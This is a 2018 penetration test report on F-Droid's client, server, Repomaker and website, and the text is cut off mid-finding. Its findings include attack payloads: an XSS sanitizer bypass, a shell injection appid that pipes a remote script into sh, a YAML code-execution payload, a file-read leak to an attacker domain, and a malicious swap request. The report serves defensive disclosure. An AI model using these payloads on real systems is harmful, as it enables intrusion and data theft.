

Client | Open Tech Fund |
Title | Penetration Test Report |
Targets | F-droid Client F-droid Privileged Extension F-droid Repomaker F-droid Server F-droid Website |
Version | 1.0 |
Pentesters | Stefan Marsiske, Abhinav Mishra, Mahesh Saptarshi |
Authors | Stefan Marsiske, Abhinav Mishra, Mahesh Saptarshi, Patricia Piolon |
Reviewed by | John Sinteur |
Approved by | Melanie Rieback |
Version control
Version | Date | Author | Description |
0.1 | March 2nd, 2018 | Stefan Marsiske | Initial draft - python code audit targets |
0.2 | April 16th, 2018 | Abhinav Mishra, Mahesh Saptarshi | Final draft for review after adding all issues from code audit and pen-test |
0.3 | August 29th, 2018 | Patricia Piolon | Cleaned up xml, fixed some errors |
1.0 | August 29th, 2018 | Patricia Piolon | Finalizing |
Contact
For more information about this
document and its contents please contact Radically Open Security B.V.
Name | Melanie Rieback |
Address | Overdiemerweg 28 1111 PP Diemen The Netherlands |
Phone | +31 (0)20 2621 255 |
Email | info@radicallyopensecurity.com |
Radically Open Security B.V. is registered at the trade register
of the Dutch chamber of commerce under number 60628081.
Table of Contents
Penetration Test Report |
Open Tech Fund |
V 1.0 Diemen, August 29th, 2018 Confidential |
1 | Executive Summary |
1.1 | Introduction |
Between February 12, 2018 and April 8, 2018, Radically Open Security B.V. carried out a code audit for Open Tech Fund
This report contains our findings as well as detailed explanations of exactly
how ROS performed the code audit.
1.2 | Scope of work |
The scope of the penetration test was limited to the following target:
• | F-droid Client | |
• | F-droid Privileged Extension | |
• | F-droid Repomaker | |
• | F-droid Server | |
• | F-droid Website |
1.3 | Project objectives |
The
project objective was to identify vulnerabilities in Fdroid web
application and mobile app. This was to be achieved by performing code
audit and pen-test of Fdroid app hosting server application, the Fdroid
app for browsing and downloading apps from Fdroid repositories, and code
to create and register app repositories as part of Fdroid community.
1.4 | Timeline |
The Security Audit took place between Febuary 12 and April 8, 2018.
1.5 | Results In A Nutshell |
In all, we report 10 high impact, 18 moderate impact and 10 low impact issues during the course of the code audit and pen-test.
Some limited impact
issues have been found in the code audit of repomaker. Some high impact
code execution and infoleak issues have been found in fdroidserver
which allow an adversary to run code in the host running fdroidserver
and the users browsers visiting fdroid.org.
Potentially significant impact issues have been found during the
Fdroid client code review, ranging from unverified trust through use of
TOFU to insecure communication leading to MiTM.
During the pen-test, the request-swap functionality of the app
potentially allows mailicious requests/messages to be accepted, and also
redirect users to malicious sites. In addition, weaknesses in
cryptography usage and potential for MiTM was discovered.
1.6 | Summary of Findings |
1.7 | Summary of Recommendations |
ID | Type | Recommendation |
Code Execution | Upgrade to a version of Bleach which fixes this bug. | |
Code Execution | Validate appids | |
Code Execution | Use yaml.safe_load instead. | |
Infoleak |
Recommendation: restrict URLs to HTTP(S) schemes.
| |
Code Execution | Create a simple interpreter for the allowed rules, or do strict validation of the input. | |
Code Execution | Validate appids | |
Code Execution |
Recommendation: validate the URL and disallow schemas like javascript: and file:, possibly using a whitelist.
| |
html/JavaScript Injection | User supplied URI should be parsed and components validated before including it in the response.
Alternatively, URLEncode or httpencode the URI. | |
Unverified trust | Use a mechanism similar to asking for pin before pairing two devices through BlueTooth, for mobile based repos.
For non-mobile based repos, the TOFU key should not be stored permanently. | |
Malicious Use of Feature | The
application should validate the message being shown to the user and its
origin. Also accepting any message or domain from a user and
redirecting the user to a different domain is a very insecure
implementation. The users should not be redirected to any domain given
by the other user. A validation of this parameter is also needed to be
implemented.
| |
Code Execution |
Deploy bleach against the descriptions.
| |
Denial of Service | Either use longer ids, or don't make the ids depending on user input. | |
Denial of Service | Check for size of images before processing, set ulimit and disk quota. | |
Denial of Service | Generate export files in a dedicated folder with restrictive access permissions. | |
Denial of Service | Replace
these with its defusedxml equivalent function or - only applicable to
xml.* modules - make sure defusedxml.defuse_stdlib() is called. | |
Arbitrary file download |
Only allow certain types of files to be transmitted (whitelisting)
if possible.
Limit the size of file to be transmitted, and warn the user for
large files.
The issue should be fixed in the parent class, and the subclasses
should perform some content type check, to avoid malicious file/app
installation on the victim device.
| |
Insecure communication |
An out of band key sharing mechanism, such as sharing a password
protected file over insecure RFComm socket, containing a symmetric
encryption key, can be used to exchange keys between untrusted devices,
instead of TOFU.
| |
Insecure communication |
An out of band key sharing mechanism, such as sharing a password
protected file over insecure RFComm socket, containing a symmetric
encryption key, can be used to exchange keys between untrusted devices,
instead of TOFU.
| |
SQL Injection |
Use prepared statements for DB query preparation.
Validate the strings with white listing before using in SQL query.
| |
URI redirect |
If this feature is not needed, it should be removed.
| |
File deletion |
On finding that the output file exists, the function should return
error and let higher level code handle the error. Alternatively, the
code should add a random suffix to the output file name if the specified
file exists.
| |
Insecure temp file |
FILE class in Java allows creation of subdirs, and setting specific
permissions on created files. It is recommended to create the temp files
within app specific subdirectory, for example "Fdroid" under global tmp
folder. This subfolder can be created with restricted permissions for
owner only, to create other temporary files with restricted permissions
within this app-specific folder.
| |
Cryptography | It
is recommended to update to a stronger signing key for this Android
app. The old default RSA 1024-bit key is weak and officially deprecated.
| |
SQL Injection | It
is recommended to never use the unvalidated user input inside a SQL
query and execute it. The best way to make sure adversaries will not be
able to inject unsolicited SQL syntax into your queries is to avoid
using SQLiteDatabase.rawQuery() instead opting for a parameterized
statement.
| |
Malicious Use of Feature | The
way the feature has been implemented is prone to different attacks. It
is suggested to not directly open a web server and allow everyone to
access. Some authentication should be applied.
| |
Transport Layer Security |
A better security practice is to include an SSL certificate inside the application build.
Then check and trust only that certificate at runtime. This is known as SSL pinning. | |
Cryptography | It
is recommended to update to a stronger signing key for this Android
app. The old default RSA 1024-bit key is weak and officially deprecated.
SHA256 is a better algorithm to use
| |
Tabnabbing |
Use rel="noopener" when using target="_blank"
| |
Malicious File Upload |
Check if the mime type matches the extension.
Use a white-list instead of a blacklist of extensions.
| |
Code Execution |
clean the name and data_list contents before rendering.
| |
Dangerous Function | Avoid the usage of the python pickle module | |
Execution without path | Establish
a list of all good paths once (during installation), store it in a file
with secure permissions and use this to call the external programs. | |
Code Execution | Validate appids. | |
Arbitrary file in response |
Only allow certain types of files to be transmitted (whitelisting) if possible.
Limit the size of file to be transmitted, and warn the user for large files.
| |
Hardcoded keys |
Provide key revocation list check. Alternatively, list the root CA
keys in a separate file which can be updated independently.
| |
Weak data protection |
If the data being protected is sensitive, stronger encryption methods should be used.
| |
Unverified remote resources |
Documented manual review of external links before accepting a
MR/PR/update/patch should be in place, and warning should be displayed
to user when they click on the external links.
| |
Weak regular expression |
Regular expression pattern should be strengthened to not allow
special characters such as semi colon, pipe, quotes etc. to avoid OS
command injection attacks.
|
Executive Summary •
2 | Methodology |
2.1 | Planning |
Our general approach during this code audit was as follows:
1. | ScanningThrough the use of vulnerability scanners, all sources were be tested
for vulnerabilities. The result would be analyzed to determine if there any
vulnerabilities that could be exploited to gain access to a target host on a
network. | |
2. | GreppingThe source code has been grepped for various expressions identifying sources of interest. | |
3. | Source code readingThe
either all of the source code or only portions identified by Scanning
and Grepping were being analyzed for possible vulnerabilities. |
Our general approach during this penetration test was as follows:
1. | ReconnaissanceWe attempted to gather as much information as possible about the
target. Reconnaissance can take two forms: active and passive. A
passive attack is always the best starting point as this would normally defeat
intrusion detection systems and other forms of protection, etc., afforded to the
network. This would usually involve trying to discover publicly available
information by utilizing a web browser and visiting newsgroups etc. An active form
would be more intrusive and may show up in audit logs and may take the form of a
social engineering type of attack. | |
2. | EnumerationWe used varied operating system fingerprinting tools to determine
what hosts are alive on the network and more importantly what services and operating
systems they are running. Research into these services would be carried out to
tailor the test to the discovered services. | |
3. | ScanningThrough the use of vulnerability scanners, all discovered hosts would be tested
for vulnerabilities. The result would be analyzed to determine if there any
vulnerabilities that could be exploited to gain access to a target host on a
network. | |
4. | Obtaining AccessThrough the use of published exploits or weaknesses found in
applications, operating system and services access would then be attempted. This may
be done surreptitiously or by more brute force methods. |
2.2 | Risk Classification |
Throughout the document, each vulnerability or risk identified has been labeled and
categorized as:
• | ExtremeExtreme risk of security controls being compromised with the possibility
of catastrophic financial/reputational losses occurring as a result. | |
• | HighHigh risk of security controls being compromised with the potential for
significant financial/reputational losses occurring as a result. | |
• | ElevatedElevated risk of security controls being compromised with the potential
for material financial/reputational losses occurring as a result. | |
• | ModerateModerate risk of security controls being compromised with the potential
for limited financial/reputational losses occurring as a result. | |
• | LowLow risk of security controls being compromised with measurable negative
impacts as a result. |
Please note that this risk rating system was taken from the Penetration Testing Execution
Standard (PTES). For more information, see:
http://www.pentest-standard.org/index.php/Reporting.
Methodology •
3 | Automated Code Scans |
Automated
code scans were used to obtain preliminary reports, which were analysed
for false positive issues. Some of the reported findings are from these
scan reports.
3.1 | Automated Scan Tools |
As part of our static code scanning, we used the following automated
scan tools:
• | bandit – https://github.com/openstack/bandit | |
• | safety – https://pyup.io/safety/ | |
• | Visual Code Grepper (VCG) – https://github.com/nccgroup/VCG
|
Automated Code Scans •
4 | Pentest Technical Summary |
4.1 | Findings |
We have identified the following issues:
4.1.1 | OTF-001 — Evasion of Bleach Sanitizer in Repomaker |
Vulnerability ID: OTF-001 | |
Vulnerability type: Code Execution | |
Threat level: High |
Description:
The user input sanitizer bleach can be circumvented and thus code
can be injected into browsers which display the descriptions of apps.
Technical description:
in
../code/repomaker/repomaker/utils.py does use bleach for sanitizing
untrusted input but can be evaded by the following obfuscations:
<a href="javas	cript:alert(1)">alert</a> <a href="javascript:alert(1)">alert</a>
Impact:
High: Code can be executed in the browser showing repomaker and sites which display the descriptions of packages.
Recommendation:
Upgrade to a version of Bleach which fixes this bug.
4.1.2 | OTF-002 — Shell Code Injection Via Malicious Appids Into Fdroidserver |
Vulnerability ID: OTF-002 | |
Vulnerability type: Code Execution | |
Threat level: High |
Description:
It is possible to
craft malicious APK files which contain an appid which is being used as a
shell injection, allowing arbitrary code execution.
Technical description:
dscanner.py runs drozer in a docker container to check an apk using pythons subprocess with shell=True parameter, if the appid can be chosen adversarily it can lead to some fun and calculators.
copy_to_container = 'docker cp "{0}" {1}:{2}'
def _copy_to_container(self, src_path, dest_path): """ Copies a file (presumed to be an apk) from src_path to home directory on container. """ path = '/home/drozer/{path}.apk'.format(path=dest_path) command = self.Commands.copy_to_container.format(src_path, self.container_id, path) try: check_output(command, shell=True) except CalledProcessError as e: logging.error(('Command "{command}" failed with ' 'error code {code}'.format(command=command, code=e.returncode))) raise
_copy_to_container() is called in _install_apk like this:
self._copy_to_container(apk_path, app_id)
_instal_apk is called from perform_drozer_scan() which is called from main() like this:
for app_id, app in apps.items(): for build in app.builds: apks = [] for f in os.listdir(options.repo_path): n = common.get_release_filename(app, build) if f == n: apks.append(f) for apk in sorted(apks): apk_path = os.path.join(options.repo_path, apk) docker.perform_drozer_scan(apk_path, app.id)
Either apk_path or app.id can be used for injecting shell codes, for example --help;curl https://host/evil.sh|sh;echo.
It remains to be
clarifified if appids do have any constraints. In this regardwe found
the following ways an appid is constructed in fdroidserver:
in common.py:545:
publish_name_regex = re.compile(r"^(.+)_([0-9]+)\.(apk|zip)$")
later starting line 561 this regular expression is used like this:
def publishednameinfo(filename): filename = os.path.basename(filename) m = publish_name_regex.match(filename) try: result = (m.group(1), m.group(2)) except AttributeError: raise FDroidException(_("Invalid name for published file: %s") % filename) return result
In metadata.py it seems appid must be a valid filename:
appid, _ignored = fdroidserver.common.get_extension(os.path.basename(metadatapath))
Later in metadata.py appid is taken from manifest.xml:
appid = manifestroot.attrib['package']
In signatures.py appid is resolved by aapt with this call:
appid, vercode, _ignored = common.get_apk_id_aapt(apkpath)
common.get_apk_id_aapt is implemented as follows:
def get_apk_id_aapt(apkfile): """Extrat identification information from APK using aapt. :param apkfile: path to an APK file. :returns: triplet (appid, version code, version name) """ r = re.compile("package: name='(?P<appid>.*)' versionCode='(?P<vercode>.*)' versionName='(?P<vername>.*)' platformBuildVersionName='.*'") p = SdkToolsPopen(['aapt', 'dump', 'badging', apkfile], output=False)
In update.py an appid is read as a line of text:
appid = line.rstrip()
Considering the above
cases of resolving the appid it seems it is possible to construct
malicious appids which can be used for arbitrary code execution in dscanner.py.
Impact:
High: Arbitrary Code Execution on the fdroid build host.
Recommendation:
Validate appids
4.1.3 | OTF-003 — Code Injection in Fdroidserver Metadata Yaml Parsing |
Vulnerability ID: OTF-003 | |
Vulnerability type: Code Execution | |
Threat level: High |
Description:
Maliciously crafted metadata can be used to run arbitrary code on the fdroidserver host.
Technical description:
It is possible to
craft a malicious metadata file in yaml format, which when its contents
are accessed can execute arbitrary code. The affected function is in metadata.py:1023:
def parse_yaml_metadata(mf, app): yamldata = yaml.load(mf, Loader=YamlLoader) if yamldata: app.update(yamldata) return app
A malicious file contains entries like:
foo: !!python/object/apply:subprocess.check_output ['whoami]
Impact:
High: can execute malicious code
Recommendation:
Use yaml.safe_load instead.
4.1.4 | OTF-004 — Infoleak in Fdroidserver Checkupdates.py |
Vulnerability ID: OTF-004 | |
Vulnerability type: Infoleak | |
Threat level: High |
Description:
Attacker
controlled URLs can be used first to run a regular expression on a
local file, then depending on a match of the expression a second URL can
be accessed or not. This can be used to leak information from the
fdroid host.
Technical description:
The python module urllib.request supports also file:
and custom schemes. This allows us to craft an apk which can test for
certain things on the local filesystem, and depending on matches calls a
second URL controlled by the attacker.
excerpt from checkupdates.py:50:
urlcode, codeex, urlver, verex = app.UpdateCheckData.split('|')
If we construct the field UpdateCheckData in such a way, that urlcode is for example file:///etc/passwd, and codeex becomes: '^a[^:]*:x:(1000)' /etc/passwd, urlver is for example pointing to an attacker controlled domain: https://attacker.com/startswitha, and verex is something that matches in the result. Then depending on the match of codeex
decides if the attacker controlled URL is retrieved or not leaking
information about the default username in this example. With further
such packages it is possible to recover the username, and possibly also
the secret ssh key of this user for example.
Excerpt showing the infoleaking side channel:
vercode = "99999999" if len(urlcode) > 0: logging.debug("...requesting {0}".format(urlcode)) req = urllib.request.Request(urlcode, None) resp = urllib.request.urlopen(req, None, 20) page = resp.read().decode('utf-8') m = re.search(codeex, page) if not m: raise FDroidException("No RE match for version code") vercode = m.group(1).strip() version = "??" if len(urlver) > 0: if urlver != '.': logging.debug("...requesting {0}".format(urlver)) req = urllib.request.Request(urlver, None) resp = urllib.request.urlopen(req, None, 20) page = resp.read().decode('utf-8') m = re.search(verex, page) if not m: raise FDroidException("No RE match for version") version = m.group(1) return (version, vercode)
Impact:
High: sensitive information (like cryptographic keys) can be leaked.
Recommendation:
Recommendation: restrict URLs to HTTP(S) schemes.
4.1.5 | OTF-005 — Code Injection in Fdroidserver Checkupdates Through Eval'ed User Supplied Data |
Vulnerability ID: OTF-005 | |
Vulnerability type: Code Execution | |
Threat level: High |
Description:
The value of VercodeOperation supplied in the metadata of the app by the adversary is eval-ed in the fdroidserver script checkupdates.py.
Technical description:
excerpt from checkupdates.py:425:
op = app.VercodeOperation.replace("%c", oldvercode) vercode = str(eval(op))
Impact:
High: Arbitrary code can be executed
Recommendation:
Create a simple interpreter for the allowed rules, or do strict validation of the input.
4.1.6 | OTF-006 — Code Injection Via Malicious Appid in Fdroidserver Build.py |
Vulnerability ID: OTF-006 | |
Vulnerability type: Code Execution | |
Threat level: High |
Description:
A maliciously crafted appid can be used to inject code in fdroidserver build.py:1274
Technical description:
build.py uses the appid as a parameter passed to the shell
subprocess.call("fdroid publish {0}".format(app.id))
Impact:
High: Arbitrary Code Execution
Recommendation:
Validate appids
4.1.7 | OTF-007 — Javascript Injection Into HTMLified Descriptions in Fdroidserver Metadata |
Vulnerability ID: OTF-007 | |
Vulnerability type: Code Execution | |
Threat level: High |
Description:
The linkify function of DescriptionFormatter in fdroidserver metadata.py allows for injection of javascript into the description of packages.
Technical description:
excerpt from `metadata.py:557
index = txt.find("]") ... url = txt[1:index] index2 = url.find(' ') ... else: urltxt = url[index2 + 1:] url = url[:index2] ... res_html += '<a href="' + url + '">' + html.escape(urltxt, quote=False) + '</a>'
Impact:
High: attacker can inject code into visitors browser
Recommendation:
Recommendation: validate the URL and disallow schemas like javascript: and file:, possibly using a whitelist.
4.1.8 | OTF-008 — Unvalidated User Input Included in Response |
Vulnerability ID: OTF-008 | |
Vulnerability type: html/JavaScript Injection | |
Threat level: High |
Description:
BluetoothServer.java: Request URI Included in Response
Technical description:
In
file net/bluetooth/BluetoothServer.java, the server prepares response
by including the request URI verbatim, without any validation.
Line 194: private Response respond(Map<String, String> headers, String uri) { ... ... Lines 222-226: if (f.isDirectory() && !uri.endsWith("/")) { uri += "/"; Response res = createResponse(NanoHTTPD.Response.Status.REDIRECT, NanoHTTPD.MIME_HTML, "<html><body>Redirected: <a href=\"" + uri + "\">" + uri + "</a></body></html>"); res.addHeader("Location", uri);
Impact:
Reflected XSS leading to client side information disclosure
Recommendation:
User supplied URI should be parsed and components validated before including it in the response.
Alternatively, URLEncode or httpencode the URI.
4.1.9 | OTF-009 — Applicatioin uses TrustOnFirstUse (TOFU) Usage unverified signing certificate |
Vulnerability ID: OTF-009 | |
Vulnerability type: Unverified trust | |
Threat level: High |
Description:
Applicatioin uses TrustOnFirstUse (TOFU) potentially using unverified signing certificate.
Technical description:
The verifySigningCertificate() function allows non-verified (and
non-verifiable) new certificate into the DB. This code applies the TOFU -
trust on first use.
Trust On First Use is
useful to establish initial contact where apriori shared key is not
available - or can not be available. This works ok if a user is prompted
to decide whether presented key is to be trusted. For example, the
first SSH connection from a client to a server prompts the user whether
the certificate presented by the server is trusted.
In case of fdroid
app, it appears that the TOFU key is trusted without prompt to user. The
TOFU key appears to be persisted in the the repo database thus making
the TOFU key permanently trusted.
In file IndexV1Updater.java:
243: X509Certificate certificate = getSigningCertFromJar(indexEntry); verifySigningCertificate(certificate); 417: if (repo.signingCertificate == null) { if (repo.fingerprint != null) { String fingerprintFromJar = Utils.calcFingerprint(rawCertFromJar); if (!repo.fingerprint.equalsIgnoreCase(fingerprintFromJar)) { throw new SigningException(repo, "Supplied certificate fingerprint does not match!"); } } Utils.debugLog(TAG, "Saving new signing certificate to database for " + repo.address); ContentValues values = new ContentValues(2); values.put(Schema.RepoTable.Cols.LAST_UPDATED, Utils.formatDate(new Date(), "")); values.put(Schema.RepoTable.Cols.SIGNING_CERT, Hasher.hex(rawCertFromJar)); RepoProvider.Helper.update(context, repo, values); repo.signingCertificate = certFromJar; }
In file RepoUpdater.java, while processing downloaded jar file (public method processDownloadedFile()starting at line 201):
Line 237: assertSigningCertFromXmlCorrect(); ... ... Line 280: private void assertSigningCertFromXmlCorrect() throws SigningException { // no signing cert read from database, this is the first use if (repo.signingCertificate == null) { verifyAndStoreTOFUCerts(signingCertFromIndexXml, signingCertFromJar); } ... ... Line 392: private void verifyAndStoreTOFUCerts(String certFromIndexXml, X509Certificate rawCertFromJar) throws SigningException { ... ... Utils.debugLog(TAG, "Saving new signing certificate in the database for " + repo.address); ContentValues values = new ContentValues(2); values.put(RepoTable.Cols.LAST_UPDATED, Utils.formatDate(new Date(), "")); values.put(RepoTable.Cols.SIGNING_CERT, Hasher.hex(rawCertFromJar)); RepoProvider.Helper.update(context, repo, values); }
Customer response:
The
TOFU process is a bit more convoluted than it should be, that's for
sure. The TOFU prompt is the "Add Repos" prompt, where the fingerprint
can either be included from clicking a URL that includes it, like https://guardianproject.info/fdroid/repo?fingerprint=B7C2EEFD8DAC7806AF67DFCD92EB18126BC08312A7F2D6F3862E46013C7A6135 or by manually typing it in.
If there is no
fingerprint provided, then yes, the first signing key seen by F-Droid
will be the one that it trusted. We decided that if the user hasn't
already provided it, then another prompt won't make that more likely.
Impact:
Unverified
signing certificate saved to DB makes it easier for future attacks to
succeed, thus causing potential device compromise.
Recommendation:
Use a mechanism similar to asking for pin before pairing two devices through BlueTooth, for mobile based repos.
For non-mobile based repos, the TOFU key should not be stored permanently.
4.1.10 | OTF-010 — (fdroid Client) Exploiting "Nearby Swap" Feature to Show Malicious Prompt to Users or Redirect to Malicious Sites |
Vulnerability ID: OTF-010 | |
Vulnerability type: Malicious Use of Feature | |
Threat level: High |
Description:
The
request to http://[client IP]:8888/request-swap is vulnerable as it can
be sent by any user, to the client's device. This can be used to show
malicious messages and also redirect users.
Technical description:
While a user is using
Nearby Swap feature on the application, it is possible to send the
request to [http://[client](http://%5Bclient) IP]:8888/request-swap with
any message. This message will be shown to the user as if it is being
sent by fdroid application.

Exploiting the request to redirect users
Send the below
request to the user's device and if the user will follow "Yes" prompt,
he/she will be redirected to the provided domain.
POST /request-swap HTTP/1.1 Content-Length: 50 Content-Type: application/x-www-form-urlencoded Host: 192.168.57.33:8888 Connection: close User-Agent: F-Droid repo=http://attacker.com%2Ffdroid%2Frepo%3Fabc.apk

The user will get redirected to attacker.com if he/she selects the Yes to prompt.

Impact:
This
vulnerability may allow an attacker to show any message on the user's
device, looking like fdroid's message. With a bit more user interaction,
attacker can even redirect the mobile application user to a website of
his own.
Recommendation:
The
application should validate the message being shown to the user and its
origin. Also accepting any message or domain from a user and
redirecting the user to a different domain is a very insecure
implementation. The users should not be redirected to any domain given
by the other user. A validation of this parameter is also needed to be
implemented.
4.1.11 | OTF-011 — Weak Regexps Filtering XSS and Unwanted HTML Tags in Fdroidserver/lint.py |
Vulnerability ID: OTF-011 | |
Vulnerability type: Code Execution | |
Threat level: Moderate |
Description:
Sanity checks in fdroidserver lint are easily evaded and allow injection of javascript code in descriptions of apps.
Technical description:
The regular expressions used to blacklist certain HTML tags and javascript injections are easily evaded:
(re.compile(r'.*<(iframe|link|script).*'), ... (re.compile(r'''.*\s+src=["']javascript:.*'''),
Impact:
Moderate: Code Injection in websites displaying descriptions of apps.
Recommendation:
Deploy bleach against the descriptions.
4.1.12 | OTF-012 — Key Alias Collisions Can Lead to DoS of Publishing in Fdroidserver |
Vulnerability ID: OTF-012 | |
Vulnerability type: Denial of Service | |
Threat level: Moderate |
Description:
By submitting an app to fdroid with a crafted appid it is possible to deny the publishing of new apps to fdroid.
Technical description:
The function key_alias() calculates the key_alias from the appid by hashing it with MD5 and taking the first 8 digits of the hex representation of this hash: md5.hexlify()[:8]. This is 32bits, but due to the birthday paradox collisions are reasonably cheap to calculate.
In the main()
function there is a check for collisions of key aliases, if there is
any, the publish script aborts. There is a comment refering to a
previous audit stating that chances are neglible of encountering a
collision.
We produced two PoC
scripts, both use as input an english wordlist (taken from debian
/usr/share/dict/words) removing all lines that end in "'s", resulting in
a list with 73333 english words.
In PoC-1
(collidemd5-4.py) we generate random english words into appids as long
as there is no collision. After approximately 9000 samples we find that
it takes about 113.930 random appids until there is a collision.
In PoC-2 we adjust
our sampling by taking into account that there are currently about 1500
apps in fdroid, and we try to create a collision with one of these 1500
items. After 1355 samples it takes an average 2.925.625 attempts to
collide with one of the 1500 target hashes.
This shows it is feasible to create a collision and create a DoS against the publishing process.
Notable also is
that the key_alias() function does allow for overriding the key alias,
but the check in the main() function does not take that into account.
publish.py:186 (main())):
# It was suggested at # https://dev.guardianproject.info/projects/bazaar/wiki/FDroid_Audit # that a package could be crafted, such that it would use the same signing # key as an existing app. While it may be theoretically possible for such a # colliding package ID to be generated, it seems virtually impossible that # the colliding ID would be something that would be a) a valid package ID, # and b) a sane-looking ID that would make its way into the repo. # Nonetheless, to be sure, before publishing we check that there are no # collisions, and refuse to do any publishing if that's the case... allapps = metadata.read_metadata() vercodes = common.read_pkg_args(options.appid, True) allaliases = [] for appid in allapps: m = hashlib.md5() m.update(appid.encode('utf-8')) keyalias = m.hexdigest()[:8] if keyalias in allaliases: logging.error(_("There is a keyalias collision - publishing halted")) sys.exit(1) allaliases.append(keyalias)
Impact:
Moderate: Denial of Service
Recommendation:
Either use longer ids, or don't make the ids depending on user input.
4.1.13 | OTF-013 — Image Bomb Can Lead to DoS in Fdroidserver:update.py |
Vulnerability ID: OTF-013 | |
Vulnerability type: Denial of Service | |
Threat level: Moderate |
Description:
Maliciously crafted images can lead to resource exhaustion in fdroidserver.
Technical description:
A crafted image can fill up the RAM and harddisk of fdroidserver _strip_and_copy_image() (resize_icon() might also be affected)
excerpt from fdroidserver/update.py:709:
with open(inpath, 'rb') as fp: in_image = Image.open(fp) data = list(in_image.getdata()) out_image = Image.new(in_image.mode, in_image.size) out_image.putdata(data) out_image.save(outpath, "JPEG", optimize=True)
PoC to be used with attached lottapixels.jpg (expect your RAM to be exhausted and lotsa swapping):
from PIL import Image with open('lottapixel.jpg', 'rb') as fp: in_image = Image.open(fp) data = list(in_image.getdata()) out_image = Image.new(in_image.mode, in_image.size) out_image.putdata(data) out_image.save("exploded.jpg", "JPEG", optimize=True)
Impact:
Moderate: Resource exhaustion on fdroid
Recommendation:
Check for size of images before processing, set ulimit and disk quota.
4.1.14 | OTF-014 — Insecure Usage of Temporary File/Directory in Fdroidserver Docker/drozer.py |
Vulnerability ID: OTF-014 | |
Vulnerability type: Denial of Service | |
Threat level: Moderate |
Description:
Insecure usage of
temporary files can allow an attacker to cause a Denial of Service by
linking to an important file and have it overwritten.
Technical description:
A predictable filename is used to write in /tmp.
excerpt from docker/drozer.py:10
drozer = pexpect.spawn("drozer console connect") drozer.logfile = open("/tmp/drozer_report.log", "w")
An adversary could create a symlink and make the export script overwrite some important file, causing a denial of service.
Impact:
Moderate: Difficult to trigger, but depending on file overwritten could be expensive
Recommendation:
Generate export files in a dedicated folder with restrictive access permissions.
4.1.15 | OTF-015 — Parsing Untrusted XML Data in Fdroidserver |
Vulnerability ID: OTF-015 | |
Vulnerability type: Denial of Service | |
Threat level: Moderate |
Description:
XML
file parsing can be used to exhaust resources (RAM) when entity parsing
is abused for the Billion Laughs and Quadratic Blowup attacks. In
fdroidserver there is a couple of places where such can happen.
Technical description:
Fdroidserver uses the python modules xml.dom.minidom, xml.etree.ElementTree and lxml. All of these are vulnerable to both "quadratic blowup" and "billion laughs" attacks.
Affected files:
Location: ./fdroidserver/btlog.py:97 doc = xml.dom.minidom.parse(repof)
Location: ./fdroidserver/common.py:2940 return XMLElementTree.parse(path).getroot()
Location: ./fdroidserver/server.py:453 tree = fromstring(response)
Impact:
Moderate: Availability can be restricted due to Denial of Service attacks
Recommendation:
Replace
these with its defusedxml equivalent function or - only applicable to
xml.* modules - make sure defusedxml.defuse_stdlib() is called.
4.1.16 | OTF-016 — Missing file type and size validation |
Vulnerability ID: OTF-016 | |
Vulnerability type: Arbitrary file download | |
Threat level: Moderate |
Description:
Download File Type and Size Are Not Verified
Technical description:
Affected files are Files net/BluetoothDownloader.java and other derived classes in localFileDownloader.java, httpDownLoader.java, imageDownLoader.Java, and its super class Downloader.java
The download
activity using WiFi or Bluetooth downloader classes does not check for
type of file, or file size. This is intended for apk file sharing
between trusted devices.
Developer comments: The install process requires that the hash of the received file matches that in the signed index.jar.
So for the exploit to install a malicious APK, the index.jar must also
be compromised. The fdroid install process first validates the sha256
against what is in the signed _index.jar_, so after the download
process, all files are verified the download process puts the files into
a private dir, so the user cannot install them manually after download,
only via _fdroidclient
Impact:
Arbitrary,
potentially malicious, file can be downloaded into an unsuspecting
user's device. This may allow an attacker to activate a different
exploit vector.
Recommendation:
Only allow certain types of files to be transmitted (whitelisting) if possible.
Limit the size of file to be transmitted, and warn the user for large files.
The issue
should be fixed in the parent class, and the subclasses should perform
some content type check, to avoid malicious file/app installation on the
victim device.
4.1.17 | OTF-017 — Use of Insecure Communication Mechanism - BluetoothClient.java |
Vulnerability ID: OTF-017 | |
Vulnerability type: Insecure communication | |
Threat level: Moderate |
Description:
Insecure RFComm Socket Is Used for Bluetooth Connection - BluetoothClient.java
Technical description:
In file
net/bluetooth/BluetoothClient.java, Bluetooth device creates an insecure
RFComm socket. This type of connection is vulnerable to MiTM attacks,
as the line key is not encrypted.
Line 29: socket = device.createInsecureRfcommSocketToServiceRecord(BluetoothConstants.fdroidUuid());
Developer response:
Ideally, F-Droid would always use encrypted connections, but with the
p2p we have found that it made it a lot harder to make the exchange. We
rely on a TOFUed signing key on the index.jar to provide the integrity check. We went with unencrypted HTTP and Bluetooth to increase the likelihood that things would work.
ROS response:
Sharing a password protected file over insecure RFComm socket,
containing a symmetric encryption key, can be used to exchange keys
between untrusted devices.
Impact:
Integrity of communication is compromised, leading to arbitrary app installation and device compromise.
Recommendation:
An out of band
key sharing mechanism, such as sharing a password protected file over
insecure RFComm socket, containing a symmetric encryption key, can be
used to exchange keys between untrusted devices, instead of TOFU.
4.1.18 | OTF-018 — Use of Insecure Communication Mechanism - BluetoothServer.java |
Vulnerability ID: OTF-018 | |
Vulnerability type: Insecure communication | |
Threat level: Moderate |
Description:
Insecure RFComm Socket Is Used for Bluetooth Connection - BluetoothServer.java
Technical description:
In file
net/bluetooth/BluetoothServer.java, Bluetooth device creates an insecure
RFComm socket. This type of connection is vulnerable to MiTM attacks,
as the line key is not encrypted.
Line 72: serverSocket = adapter.listenUsingInsecureRfcommWithServiceRecord("FDroid App Swap", BluetoothConstants.fdroidUuid());
Reference: https://developer.android.com/reference/android/bluetooth/BluetoothDevice.html#createInsecureRfcommSocketToServiceRecord(java.util.UUID)
Impact:
Integrity of communication is compromised, leading to arbitrary app installation and device compromise.
Recommendation:
An out of band
key sharing mechanism, such as sharing a password protected file over
insecure RFComm socket, containing a symmetric encryption key, can be
used to exchange keys between untrusted devices, instead of TOFU.
4.1.19 | OTF-019 — Potential SQL Injection |
Vulnerability ID: OTF-019 | |
Vulnerability type: SQL Injection | |
Threat level: Moderate |
Description:
Concatenation of strings, some of which are under attacker c.ontrol, is used to form DB queries.
Technical description:
Several functions
in data subdirectory code use string concatenated query building to do
DB operations on package name and other package supplied or repo
supplied parameters.
